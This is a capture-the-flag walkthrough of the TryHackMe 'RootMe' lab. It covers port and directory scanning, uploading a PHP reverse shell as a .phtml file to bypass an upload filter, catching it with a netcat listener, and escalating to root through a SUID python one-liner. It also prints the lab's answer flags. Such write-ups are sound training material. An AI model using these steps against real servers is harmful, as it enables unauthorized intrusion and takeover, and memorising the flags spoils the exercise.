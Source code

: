 # **TryHackMe RootMe**
*Walkthrough using Kali Linux by Leonidas Karagkounis*

## **Reconnaissance**
Start by using nmap to scan for ports and services
```
nmap -sC -sV <target_ip> 
```
1. **Scan the machine, how many ports are open?**  
```
2
```
2. **What version of Apache is running?** 
```
2.4.29
```
3. **What service is running on port 22?**
```
ssh
```
## **Locating directories using Gobuster**
Running gobuster to find hidden directories
```
gobuster dir --url http://<target_ip> --wordlist ~/Downloads/SecLists/Discovery/Web-Content/raft-large-directories-lowercase.txt -t 24 -x php,bak,zip,txt

```

4. **What is the hidden directory?**  
```
/panel/

```




### **Getting a shell**
## **Compromise the webserver**

Visit <target_ip>/panel/

We can exploit this by uploading a php reverse shell

- Download php-reverse-shell from [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

- Open the file and edit the $ip = '127.0.0.1' with your machine's ip. If you dont know what is your ip, type ifconfig and check the tun0 interface.

    *You can also change the $port = 1234 if you want to something else like 9001 for example which is what i did and if you follow along change it as well, otherwise make sure to change the commands later on with the appropriate port number.*

- When we try and upload the file we get an error message. Trying different file types we find out we can upload .phtml files. The technique on how to scan is explained on the Vulnversity write up [here](https://github.com/KaragkounisL/TryHackMe-Writeups/blob/main/Vulnversity.md).

- Make a copy as php.reverse-shell.phtml.

- Set up a netcat listener with the command :  
```
nc -nlvp 9001
```

- Upload the php-reverse-shell.phtml file to the webserver and go to the webpage 
```
http://<target_ip>/uploads/php-reverse-shell.phtml
```
 
This will execute the script and return a reverse shell in your listener. 

### **Getting the user flag**
Typing 
```
whoami
```
we get the response www-data. The home directory of this user is the var/www folder.
We navigate that folder using 
``` 
cd /var/www
```
and we type 
```
ls -al
```

There we can find the user.txt and we can see its contents by typing

```
cat user.txt
```

4. **user.txt** 
```
THM{y0u_g0t_a_sh3ll}
```

## **Privilege Escalation**
Start by typing 
```
find / -user root -perm /4000 2>/dev/null
```

1. **Search for files with SUID permission, which file is weird?** 
```
/usr/bin/python
```

### **Getting a root shell**

We can visit GTFOBins and search for the python binary

https://gtfobins.github.io/gtfobins/python/

Under the SUID category we find what we are searching for
```
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

### **Geting the root flag**

Executing the command gives us root access which we can confirm by typing 
```
whoami
```
Navigate into the original folder and then into theroot folder by using 
```
cd ../../
cd /root
``` 
Type 
```
ls -al
``` 
You should see the root.txt flag. Check the content with 
```
cat root.txt
```

2. **root.txt**
```
THM{pr1v1l3g3_3sc4l4t10n}
```